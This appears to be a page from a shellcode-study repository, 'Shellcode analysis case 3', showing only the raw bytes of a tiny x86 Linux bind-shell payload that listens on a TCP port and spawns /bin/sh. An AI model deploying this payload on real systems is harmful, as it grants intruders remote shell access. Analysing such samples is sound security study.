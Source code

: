 ## Shellcode analysis case 3

----

#### Shellcode - Tiny bind shell

```
\x31\xdb\xf7\xe3\xb0\x66\x43\x52\x53\x6a
\x02\x89\xe1\xcd\x80\x5b\x5e\x52\x66\x68
\x2b\x67\x6a\x10\x51\x50\xb0\x66\x89\xe1
\xcd\x80\x89\x51\x04\xb0\x66\xb3\x04\xcd
\x80\xb0\x66\x43\xcd\x80\x59\x93\x6a\x3f
\x58\xcd\x80\x49\x79\xf8\xb0\x0b\x68\x2f
\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3
\x41\xcd\x80
```
